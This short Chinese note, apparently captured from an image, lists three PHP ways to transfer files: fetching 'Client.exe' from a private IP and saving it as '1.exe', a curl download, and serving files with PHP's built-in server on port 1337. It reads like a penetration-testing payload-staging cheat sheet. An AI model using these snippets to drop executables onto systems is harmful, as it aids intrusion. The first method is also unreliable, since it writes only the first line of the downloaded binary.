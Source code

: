 方式一：
	#!/usr/bin/php 
	<?php $data = @file("http://192.168.1.192/Client.exe");
	$lf = "1.exe";         
	$fh = fopen($lf, 'w');         
	fwrite($fh, $data[0]);         
	fclose($fh); 
	?>

方式二：
	<?php  
	$url  = '[http://www.example.com/file](http://www.example.com/file)';  
	$path = '/path/to/file';  
	$ch = curl_init($url);  
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);  
	$data = curl_exec($ch);  
	curl_close($ch);  
	file_put_contents($path, $data);  
	?>  	 
	
  执行：php test.php

方式三：
PHP 5.4+
搭建服务器
	php -S 0.0.0.0:1337